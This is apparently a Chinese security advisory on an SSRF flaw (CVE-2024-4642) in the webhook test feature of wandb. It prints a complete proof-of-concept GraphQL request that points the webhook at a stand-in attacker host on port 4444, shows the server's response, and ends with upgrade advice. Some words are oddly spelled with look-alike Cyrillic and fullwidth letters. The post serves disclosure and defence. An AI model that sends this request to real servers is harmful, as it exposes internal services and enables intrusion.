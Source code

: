 #  【漏洞预警】wandb信息泄露漏洞(CVE-2024-4642)   
cexlife  飓风网络安全   2024-05-17 17:02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu02QD7v8DcIf568vLQkLNtppdHic3OSIMEvYDucT5AXSwDekbKrzIlvibfZypJliagQPSic29APHia8kXdA/640?wx_fmt=png&from=appmsg "")  
  
**漏洞描述:**  
  
由于HTTP302重定向处理不当,ԝаndb/ԝаndb存储库中存在服务端请求伪造(SSRF)漏洞,此问题允许有权访问'Uѕеr ѕеttinɡѕ->Wеbhооkѕ'函数的团队成员利用该漏洞访问内部HTTP(ѕ)服务器,在严重的情况下,例如在ＡWS实例上,这可能会被滥用以在受害者的机器上实现远程代码执行,该漏洞存在于最新版本的存储库中。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu02QD7v8DcIf568vLQkLNtppj9LawKI5mNBxx9PwV8hU77tIbu4HUSa3ssTNK7BSnbMBOZvoB5Oqxw/640?wx_fmt=png&from=appmsg "")  
  
POST /graphql HTTP/1.1Host: ip:8080User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brReferer: http://ip:8080/settingscontent-type: application/jsonX-Origin: http://ip:8080Content-Length: 572Origin: http://ip:8080Connection: close{"operationName":"TestGenericWebhookIntegration","variables":{"entityName":"test","urlEndpoint":"http://{your-IP}:4444","requestPayload":"{\n\n\n\n\n}"},"query":"mutation TestGenericWebhookIntegration($entityName: String!, $urlEndpoint: String!, $accessTokenRef: String, $secretRef: String, $requestPayload: JSONString) {\n  testGenericWebhookIntegration(\n    input: {entityName: $entityName, urlEndpoint: $urlEndpoint, accessTokenRef: $accessTokenRef, secretRef: $secretRef, requestPayload: $requestPayload}\n  ) {\n    ok\n    response\n    __typename\n  }\n}\n"}HTTP/1.1 200 OKServer: nginxDate: Mon, 18 Mar 2024 14:48:04 GMTContent-Type: application/json; charset=utf-8Content-Length: 201Connection: closeVary: OriginX-Content-Type-Options: nosniffX-Ratelimit-Limit: 1000X-Ratelimit-Remaining: 1000Cache-Control: no-store, no-cache, must-revalidate, proxy-revalidate, max-age=0{"data":{"testGenericWebhookIntegration":{"ok":true,"response":"{\"response\":\"\\u003ch1\\u003eSSRF secret\\u003c/h1\\u003e\\n\",\"error\":\"\"}","__typename":"TestGenericWebhookIntegrationPayload"}}}**影响产品:**  
  
wandb/wandb<=latest **修复解决方案:**目前官方已有可更新版本,建议受影响用户升级至最新版本   
  
